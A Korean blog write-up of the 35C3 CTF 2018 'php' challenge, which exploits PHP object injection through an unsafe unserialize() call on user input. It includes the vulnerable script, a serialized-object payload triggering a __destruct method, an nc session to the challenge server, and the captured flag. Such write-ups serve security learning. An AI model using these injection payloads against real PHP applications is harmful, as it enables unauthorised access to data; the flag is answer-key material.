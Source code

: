 ```yaml
---
layout: post
title: ! "[35C3 CTF 2018] php Write up"
excerpt_separator: <!--more-->
comments : true
categories : [CTF/2018]
tags:
  - Write-up
  - CTF
  - 35C3CTF2018
---
```


어제 ctftime을 돌아보다가 `35C3 CTF`가 하고 있길래 한 문제를 풀어보았다.  

원래 몇개 더 풀어보고 싶었는데 어떻게 푸는건지를 모르겠다.  

아직 Write up이 안올라왔던데, 나중에 올라오면 찾아봐야겠다.  

<!--more-->

일단 `php` 문제 정보는 다음과 같다.  

```
PHP's unserialization mechanism can be exceptional. Guest challenge by jvoisin.

Files at https://35c3ctf.ccc.ac/uploads/php-ff2d1f97076ff25c5d0858616c26fac7.tar. Challenge running at: nc 35.242.207.13 1
```

파일을 다운받아 압축을 풀어보면 `php.php` 파일을 확인할 수 있다.  

`php.php`의 내용은 다음과 같다.  

```php
<?php

$line = trim(fgets(STDIN));

$flag = file_get_contents('/flag');

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}

$a = @unserialize($line);

throw new Exception('Well that was unexpected…');

echo $a;
```

`STDIN`으로 입력 값을 받아 `$line`에 저장한 후, 이를 `unserialize` 함수를 통해 `unserialize` 한 값을 `$a`에 저장한다.  

마지막으로 `$a`를 출력 해 준다.  

그런데 위를 살펴보면 `B`라는 `class`가 선언되어 있고, `__destruct` 함수 안에 `$flag`함수를 출력 해 준다.  

아무래도 `unserialize` 함수의 취약점(?)을 가지고 푸는 문제인 것 같아 일단 `unserialize`함수가 무엇인지를 찾아보았다.  

> serialize()  
>> PHP 변수들을 string으로 만들어 주는 함수  
>> ex) serialize(array(3, 4, 5, 6)) => a:4:{i:0;i:3;i:1;i:4;i:2;i:5;i:3;i:6;}  
>> a:4 => 배열의 크기는 4  
>> object 일 경우 O:object_name_length:"object_name":object_size:  
>> ex) O:8:"stdclass":8:  
>> i:0;i:3 => 배열 첫 번째 인덱스의 값은 3  
>> int가 아닌 string 형태 일 경우 s:string_length:"string";    
>> ex) s:3:"one";

> unserialize()  
>> serialize 된 변수를 PHP 값으로 변환  
>> ex) unserialize(a:4:{i:0;i:3;i:1;i:4;i:2;i:5;i:3;i:6;}) => Array([0] => 3 [1] => 4 [2] => 5 [3] => 6)  

그런데 찾아보다 보니, 아래와 같은 블로그를 찾을 수 있었다.  

> [http://qkqhxla1.tistory.com/444](http://qkqhxla1.tistory.com/444)

`php object injection`에 대한 설명인데, 취약점 exploit을 위한 아래의 두 가지 조건이 `php` 문제와 정확히 일치한다.  

1. 어플리케이션은 php의 매직 메소드(__wakeup이나 destrust 같은)를 구현한 클래스를 가지고 있어야 한다.  
2. 공격중의 모든 클래스들은 취약한 unserialize()가 호출되기 전에 선언되어야 한다.  

그래서 아래와 같이 입력 해 보았다.  

```
O:1:"B":1{s:4:"flag";s:5:"/flag";}
```

그러면 `B` 클래스에 `flag`라는 이름으로 `/flag`를 할당하고 `__destruct` 메소드를 호출하며 `echo $flag`를 실행 할 것이다.  

문제에 접속하여 위와 같이 입력 했더니 flag를 읽을 수 있었다!  

```
$ nc 35.242.207.13 1
O:1:"B":1{s:4:"flag";s:5:"/flag";}
35C3_php_is_fun_php_is_fun
PHP Fatal error:  Uncaught Exception: Well that was unexpected… in /home/user/php.php:16
Stack trace:
#0 {main}
  thrown in /home/user/php.php on line 16
```

그런데 이 문제 다시 생각 해 보니 어찌됬든 `__destruct` 메소드만 호출하도록 하면 되서 굳이 내가 한 방식 말고 `O:1:"B":1:{}` 이런식으로 해도 문제가 풀릴 것 같다.  

근데 뭐 풀었으니 됬다 ㅎㅎㅎ  

```
35C3_php_is_fun_php_is_fun
```
